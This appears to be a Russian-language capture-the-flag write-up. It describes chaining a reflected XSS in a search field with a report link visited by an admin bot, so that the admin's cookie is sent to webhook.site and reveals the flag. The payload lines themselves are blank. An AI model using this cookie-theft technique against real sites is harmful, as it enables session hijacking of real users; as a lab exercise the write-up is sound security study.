

# Клиент всегда прав: Write-up #
Нас встречает сайт с тремя ссылками на различные посты. Заметим, что иконки возле ссылок тоже кликабельные.

И вот, какой url они выдают:

    http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?publication=ilon-mask
Уже наводит на определённые крысиные мысли...

Теперь попробуем поковырять поисковую строку, не просто так же она здесь. Пробуем простейший xss:

    
    
Есть контакт!

Раз уж есть xss и наивный админ, который смотрит наши репорты, можно попробовать украсть его куки. Вставим в параметр `report` ссылку с параметром `search`, в который запихнём xss.
Для принятия куки лучше использовать [webhook.site](https://webhook.site). Он генерирует ссылку, которую будем использовать в пэйлоаде. Итоговый xss:

    

Кидаем это в параметр `search` а затем получившейся ссылкой заменяем параметр `report`:

    http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=

Идём смотреть куки на вебхуке и видим флаг:

`flag=CODEBY{r3fl3cted_XSS_expl0it3d}`
